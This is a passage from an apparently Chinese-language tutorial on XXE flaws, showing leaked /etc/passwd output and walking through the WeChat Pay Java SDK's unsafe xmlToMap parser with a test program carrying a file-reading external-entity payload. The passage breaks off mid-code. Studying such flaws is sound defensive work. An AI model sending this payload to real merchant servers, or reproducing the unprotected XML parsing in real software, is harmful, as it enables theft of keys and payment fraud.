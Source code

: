 如果没有做好“安全措施” 就会出现解析恶意代码的情况，就会有下面的返回

```
{"error": "no results for description root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync...
```

### **实例二：微信支付的 XXE**

前一阵子非常火的微信支付的 XXE 漏洞当然不得不提，

**漏洞描述：**

微信支付提供了一个 api 接口，供商家接收异步支付结果，微信支付所用的java sdk在处理结果时可能触发一个XXE漏洞，攻击者可以向这个接口发送构造恶意payloads,获取商家服务器上的任何信息，一旦攻击者获得了敏感的数据 (md5-key and merchant-Id etc.)，他可能通过发送伪造的信息不用花钱就购买商家任意物品

我下载了 java 版本的 sdk 进行分析，这个 sdk 提供了一个 WXPayUtil 工具类，该类中实现了xmltoMap和maptoXml这两个方法，而这次的微信支付的xxe漏洞爆发点就在xmltoMap方法中

**如图所示：**

![image-20231218151252860](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218151252860.png)

问题就出现在我横线划出来的那部分，也就是简化为下面的代码：

```
public static Map<String, String> xmlToMap(String strXML) throws Exception {
        try {
            Map<String, String> data = new HashMap<String, String>();
            DocumentBuilder documentBuilder = WXPayXmlUtil.newDocumentBuilder();
            InputStream stream = new ByteArrayInputStream(strXML.getBytes("UTF-8"));
            org.w3c.dom.Document doc = documentBuilder.parse(stream);
            ...
```

我们可以看到 当构建了 documentBuilder 以后就直接对传进来的 strXML 解析了，而不巧的是 strXML 是一处攻击者可控的参数，于是就出现了 XXE 漏洞，下面是我实验的步骤

首先我在 com 包下又新建了一个包，来写我们的测试代码，测试代码我命名为 test001.java

**如图所示：**

![image-20231218151325328](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231218151325328.png)

**test001.java**

```
package com.test.test001;

import java.util.Map;

import static com.github.wxpay.sdk.WXPayUtil.xmlToMap;

public class test001 {
    public static void main(String args[]) throws Exception {

        String xmlStr ="<?xml version='1.0' encoding='utf-8'?>\r\n" +
                "<!DOCTYPE XDSEC [\r\n" +
                "<!ENTITY xxe SYSTEM 'file:///d:/1.txt'>]>\r\n" +
                "<XDSEC>\r\n"+
                "<XXE>&xxe;</XXE>\r\n" +
                "</XDSEC>";

        try{

            Map<String,String> test = xmlToMap(xmlStr);
            System.out.println(test);
        }catch (Exception e){
```